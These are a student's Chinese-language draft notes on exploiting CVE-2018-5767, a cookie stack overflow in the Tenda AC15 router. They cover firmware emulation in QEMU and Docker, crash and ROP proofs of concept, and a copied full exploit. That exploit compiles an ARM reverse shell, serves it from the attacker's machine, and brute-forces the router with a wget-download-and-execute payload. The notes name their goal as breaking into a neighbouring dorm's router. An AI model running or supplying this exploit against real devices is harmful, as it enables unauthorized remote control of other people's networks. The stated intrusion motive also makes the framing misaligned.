参考链接:(在写报告与ppt的时候根据以下链接的博客做改动)

1.https://www.anquanke.com/post/id/204326
2.https://fidusinfosec.com/remote-code-execution-cve-2018-5767/（Tenda AC15路由器上的远程执行代码（CVE-2018-5767）演练）（

3.https://www.freebuf.com/articles/wireless/166869.html

4.https://xz.aliyun.com/t/7357（中间的分析过程在这个上面的图片复制）


其他参考（源文件在这上面下载）：https://github.com/firmianay/IoT-vulhub/tree/master/Tenda/CVE-2018-5767

实验过程的图片先抄博客的，等后面有了再补上去

#### 攻击起因：

隔壁寝室有台tenda 的路由器。本人想要攻击进去


#### 漏洞类型：

cve-2018-5767 Tenda AC15 栈溢出漏洞调试

### 漏洞分析

binwalk -Me teanda.bin





这个可以写一点binwalk的介绍和分析出来的东西介绍

这里readlf 是分析这个固件的模拟架构

busybox是嵌入式liunx最常用 命令集成软件  提供一些基础的linux命令



或者使用file 查看架构




```
#安装qemu和arm的动态链接库
sudo apt install qemu-user-static libc6-arm* libc6-dev-arm*
cp $(which qemu-arm-static) .

sudo chroot ./ ./qemu-arm-static ./bin/httpd


```







再次重启

```

sudo chroot ./ ./qemu-arm-static ./bin/httpd


```



发现能够使用但是ip不对


最后配置成功后




poc

```
import requests
ip = "192.168.136.139" 
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookir":"password="+"A"*501}
ret = requests.get(url=url,cookies=cookie)
print ret.text
```

现在运行我们的poc



可以看到我们的httpd服务停止了
发生了段错误（segmentation fault）

证明漏洞存在

然后再来一个hello的poc

```
import requests
from pwn import *

cmd="echo hello"
libc_base = 0xff5d5000
system_offset = 0x0005a270
system_addr = libc_base + system_offset
gadget1 = libc_base + 0x00018298
gadget2 = libc_base + 0x00040cb8

#444个“A”和“.png”组成偏移量448
payload = "A"*444 +".png" + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd

url = "http://192.168.2.108/goform/xxx"
cookie = {"Cookie":"password="+payload}
requests.get(url=url, cookies=cookie)
```

这里需要下载pwntolls库

```
pip install pwntools
```


这后面就可用https://xz.aliyun.com/t/7357

这个博客中仿真模拟的分析方法

后面逆向分析尽量使用博客中IDA分析图片


其中用了qume模拟 仿真环境

qume-arm-static  模拟arm32位框架

去查一下资料





### 实验环境搭建

(将docker于docker compose的安装流程)

为了方便环境移植，这里采用选择了在docker上搭建环境

1.网上搜一下docker的安装

还需要安装docker-compose

这里采用的是菜鸟教程的安装方式

```
sudo curl -L "https://github.com/docker/compose/releases/download/1.24.1/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```

要安装其他版本的 Compose，请替换 1.24.1。

将可执行权限应用于二进制文件：

```
$ sudo chmod +x /usr/local/bin/docker-compose
```

创建软链：

```
$ sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
```

测试是否安装成功：

```
$ docker-compose --version
cker-compose version 1.24.1, build 4667896b
```


#### 编写dockerfile

```
FROM firmianay/qemu-user-static
LABEL Author=""

WORKDIR /root

# 复制固件
COPY ./firmware/_*/squashfs-root /root/squashfs-root

# 复制工具
COPY ./user-emu/tools /root/tools

RUN apt-get update && apt-get install -y --no-install-recommends uml-utilities bridge-utils isc-dhcp-client net-tools \
    && mv /usr/bin/qemu-arm-static ./squashfs-root \
    && /bin/bash -c ./tools/patch.sh \
    && rm -rf /var/lib/apt/lists/* \
    mv /sbin/dhclient /usr/sbin/dhclient

COPY ./user-emu/run.sh /root/run.sh
CMD [ "/bin/sh", "-c", "./run.sh" ]
```

#### 编写copmpose的yaml文件

```
version: "3"

services:
    user-emu:
        container_name: tenda-user
        build:
          context: .
          dockerfile: ./user-emu/Dockerfile
        ports:
          - "1234:80"
        privileged: true
```

```
# 构建环境
$ docker-compose -f docker-compose-user.yml build

# 启动环境
$ docker-compose -f docker-compose-user.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it tenda-user /bin/bash
```

##### patch 部分采用dd来代替

文件名:patch.sh

```
#!/bin/bash

# patch connectcfm 的返回值为1 "mov r3, #1"
printf '\x01\x30\xa0\xe3' | dd of=/root/squashfs-root/bin/httpd bs=1 seek=151476 conv=notrunc
printf '\x01\x30\xa0\xe3' | dd of=/root/squashfs-root/bin/httpd bs=1 seek=151440 conv=notrunc
```

##### 配置docker内部环境 

文件名:run.sh

```
#!/bin/bash

brctl addbr br0
brctl addif br0 eth0
ifconfig br0 up
dhclient br0

cd ./squashfs-root
mount -o bind /dev ./dev
mount -t proc /proc ./proc
chroot . ./qemu-arm-static ./bin/httpd
# chroot . ./qemu-arm-static -g 1234 ./bin/httpd

while true; do sleep 100; done

```

### 进攻利用

这里可以先抄一抄博客上的，其他的等实验环境搭建好了后再修改


#### 远程执行代码

```
#!/usr/bin/env python
# EDB Note ~ Source: https://www.fidusinfosec.com/remote-code-execution-cve-2018-5767/
import urllib2
import struct
import time
import socket
from optparse import *
import SimpleHTTPServer
import SocketServer
import threading
import sys
import os
import subprocess
 
ARM_REV_SHELL = (
"#include <sys/socket.h>\n"
"#include <sys/types.h>\n"
"#include <string.h>\n"
"#include <stdio.h>\n"
"#include <netinet/in.h>\n"
"int main(int argc, char **argv)\n"
"{\n"
"           struct sockaddr_in addr;\n"
"           socklen_t addrlen;\n"
"           int sock = socket(AF_INET, SOCK_STREAM, 0);\n"
 
"           memset(&addr, 0x00, sizeof(addr));\n"
 
"           addr.sin_family = AF_INET;\n"
"           addr.sin_port = htons(%d);\n"
"           addr.sin_addr.s_addr = inet_addr(\"%s\");\n"
 
"           int conn = connect(sock, (struct sockaddr *)&addr,sizeof(addr));\n"
 
"           dup2(sock, 0);\n"
"           dup2(sock, 1);\n"
"           dup2(sock, 2);\n"
 
"           system(\"/bin/sh\");\n"
"}\n"
)
 
REV_PORT = 31337
HTTPD_PORT = 8888
DONE = False
 
"""
* This function creates a listening socket on port
* REV_PORT. When a connection is accepted it updates
* the global DONE flag to indicate successful exploitation.
* It then jumps into a loop whereby the user can send remote
* commands to the device, interacting with a spawned /bin/sh
* process.
"""
def threaded_listener():
            global DONE
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
           
            host = ("0.0.0.0", REV_PORT)
           
            try:
                        s.bind(host)
            except:
                        print "[+] Error binding to %d" %REV_PORT
                        return -1
 
 
            print "[+] Connect back listener running on port %d" %REV_PORT
           
            s.listen(1)
            conn, host = s.accept()
 
            #We got a connection, lets make the exploit thread aware
            DONE = True
 
            print "[+] Got connect back from %s" %host[0]
            print "[+] Entering command loop, enter exit to quit"
 
            #Loop continuosly, simple reverse shell interface.
            while True:
                        print "#",
                        cmd = raw_input()
                        if cmd == "exit":
                                    break
                        if cmd == '':
                                    continue
 
                        conn.send(cmd + "\n")
 
                        print conn.recv(4096)
 
"""
* Take the ARM_REV_SHELL code and modify it with
* the given ip and port to connect back to.
* This function then compiles the code into an
* ARM binary.
@Param comp_path – This should be the path of the cross-compiler.
@Param my_ip – The IP address of the system running this code.
"""
def compile_shell(comp_path, my_ip):
            global ARM_REV_SHELL
            outfile = open("a.c", "w")
 
            ARM_REV_SHELL = ARM_REV_SHELL%(REV_PORT, my_ip)
           
            outfile.write(ARM_REV_SHELL)
            outfile.close()
 
            compile_cmd = [comp_path, "a.c","-o", "a"]
 
            s = subprocess.Popen(compile_cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
           
            while s.poll() == None:
                        continue
 
            if s.returncode == 0:
                        return True
            else:
                        print "[x] Error compiling code, check compiler? Read the README?"
                        return False
 
"""
* This function uses the SimpleHTTPServer module to create
* a http server that will serve our malicious binary.
* This function is called as a thread, as a daemon process.
"""
def start_http_server():
            Handler = SimpleHTTPServer.SimpleHTTPRequestHandler
            httpd = SocketServer.TCPServer(("", HTTPD_PORT), Handler)
 
            print "[+] Http server started on port %d" %HTTPD_PORT
            httpd.serve_forever()
           
 
"""
* This function presents the actual vulnerability exploited.
* The Cookie header has a password field that is vulnerable to
* a sscanf buffer overflow, we make use of 2 ROP gadgets to
* bypass DEP/NX, and can brute force ASLR due to a watchdog
* process restarting any processes that crash.
* This function will continually make malicious requests to the
* devices web interface until the DONE flag is set to True.
@Param host – the ip address of the target.
@Param port – the port the webserver is running on.
@Param my_ip – The ip address of the attacking system.
"""
def exploit(host, port, my_ip):
            global DONE
            url = "http://%s:%s/goform/exeCommand"%(host, port)
            i = 0
 
            command = "wget http://%s:%s/a -O /tmp/a && chmod 777 /tmp/a && /tmp/./a &;" %(my_ip, HTTPD_PORT)
 
            #Guess the same libc base continuosly
            libc_base = ****
            curr_libc = libc_base + (0x7c << 12)
 
            system = struct.pack("<I", curr_libc + ****)
 
            #: pop {r3, r4, r7, pc}
            pop = struct.pack("<I", curr_libc + ****)
            #: mov r0, sp ; blx r3
            mv_r0_sp = struct.pack("<I", curr_libc + ****)
 
            password = "A"*offset
            password += pop + system + "B"*8 + mv_r0_sp + command + ".gif"
 
            print "[+] Beginning brute force."
            while not DONE:
                        i += 1                 
                        print "[+] Attempt %d" %i
 
                        #build the request, with the malicious password field
                        req = urllib2.Request(url)                     
                        req.add_header("Cookie", "password=%s"%password)
 
                        #The request will throw an exception when we crash the server,
                        #we don't care about this, so don't handle it.
                        try:
                                    resp = urllib2.urlopen(req)
                        except:
                                    pass
 
                        #Give the device some time to restart the
                        time.sleep(1)
 
            print "[+] Exploit done"
 
 
def main():
            parser = OptionParser()
            parser.add_option("-t", "–target", dest="host_ip", help="IP address of the target")
            parser.add_option("-p", "–port", dest="host_port", help="Port of the targets webserver")
            parser.add_option("-c", "–comp-path", dest="compiler_path", help="path to arm cross compiler")
            parser.add_option("-m", "–my-ip", dest="my_ip", help="your ip address")
 
            options, args = parser.parse_args()
 
            host_ip = options.host_ip
            host_port = options.host_port
            comp_path = options.compiler_path
            my_ip = options.my_ip
 
            if host_ip == None or host_port == None:
                        parser.error("[x] A target ip address (-t) and port (-p) are required")
 
            if comp_path == None:
                        parser.error("[x] No compiler path specified, you need a uclibc arm cross compiler, such as https://www.uclibc.org/downloads/binaries/0.9.30/cross-compiler-arm4l.tar.bz2")
 
            if my_ip == None:
                        parser.error("[x] Please pass your ip address (-m)")
 
 
            if not compile_shell(comp_path, my_ip):
                        print "[x] Exiting due to error in compiling shell"
                        return -1
 
            httpd_thread = threading.Thread(target=start_http_server)
            httpd_thread.daemon = True
            httpd_thread.start()
           
            conn_listener = threading.Thread(target=threaded_listener)
            conn_listener.start()
 
            #Give the thread a little time to start up, and fail if that happens
            time.sleep(3)
 
            if not conn_listener.is_alive():
                        print "[x] Exiting due to conn_listener error"
                        return -1
           
 
            exploit(host_ip, host_port, my_ip)
           
           
            conn_listener.join()
           
            return 0
 
           
 
if __name__ == '__main__':
            main()
```

